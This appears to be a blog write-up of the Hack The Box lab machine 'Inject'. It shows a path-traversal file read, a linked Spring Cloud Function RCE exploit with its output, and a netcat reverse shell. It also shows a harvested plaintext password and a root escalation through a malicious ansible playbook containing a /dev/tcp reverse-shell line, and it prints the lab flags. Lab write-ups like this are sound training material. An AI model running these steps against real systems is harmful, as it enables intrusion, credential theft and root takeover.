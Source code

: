 ```yaml
---
title: "Inject from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Inject from HTB
`nmap`gave this:
```bash
22/tcp    open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)

8080/tcp  open     nagios-nsca Nagios NSCA
|_http-title: Home
```
Access the `port 8080`and see that it has `upload`which only takes `images`upload image and click `view your image`and in `url`you can see this:
```
http://10.10.11.204:8080/show_image?img=something_something
```
It means that it takes `image`you uploaded. It's `LFI`exploitable. So go to `burpsuite`and do `LFI`attack. After some exploring `version`can be found in here
```
GET /show_image?img=../../../../../../var/www/WebApp/pom.xml HTTP/1.1
```
Here is the version:
```
<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
```
Search shows it is exploitable and i found an `RCE code`to get reverse shell in github:
https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE/blob/main/spring-cloud-rce.py
# you must configure the code to your IP, PORT and MACHINE IP
Then start `NetCat`listener on port you want and execute the code.
```python
python3 spring-cloud-rce-3.2.2.py
[+] Serving on port 8000
[!] Press Ctrl+C to stop the server
[+] Creating shell.sh in current Directory...
[++] Done
[+] Sending shell to /dev/shm/shell.sh...
[++] Done
[+] Giving the server time to process...
	z z z z z
10.10.11.204 - - [12/Aug/2024 19:49:38] "GET /shell.sh HTTP/1.1" 200 -
	z z z z
	z z z
	z z
	z
[++] Countdown finished!
[+] Making the shell executable...
[++] Done
[+] Executing shell...
[+] Server stopped.


 rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.204] 56412
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
frank@inject:/$
```
We are in.
Password for other user is located in `/home/frank/.m2/settings.xml`read it and get the password.
it is: `DocPhillovestoInject123`
***
User Flag is: feb816665bae93aa3a60ee369df26a17
***

Then download `pspy64s`on machine and run it. There is `cronjob`which you will use to do `privilege escalation`.
```python
./pspy64s
.......

..........
..............
..................
2024/08/12 16:30:01 CMD: UID=0    PID=5639   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
2024/08/12 16:30:01 CMD: UID=0    PID=5638   | /bin/sh -c sleep 10 && /usr/bin/rm -rf /opt/automation/tasks/* && /usr/bin/cp /root/playbook_1.yml /opt/automation/tasks/
```
So there is an `/usr/local/bin/ansible-parallel`which runs `*.yml`files located in `/opt/automation/tasks/`directory. `UID=0`which means this command is run by `root`.
So if we do reverse shell we will be `root`.
create an `reverse.yml` in `/opt/automation/tasks/` with commands:
```yml
- hosts: localhost
  tasks:
  - name: Checking webapp service
    shell:
      cmd: bash -c 'bash -i >& /dev/tcp/<your_IP>/<port> 0>&1'
```
And wait for it to be executed. `DONT FORGET to set netcat listener`
```bash
nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.204] 33378
bash: cannot set terminal process group (8039): Inappropriate ioctl for device
bash: no job control in this shell
root@inject:/opt/automation/tasks#
```
***
Root Flag is: ffae042f498cf72f0d7017c6bcd21d3f
***
![](/assets/images/Screenshot from 2024-08-12 21-06-31.png)
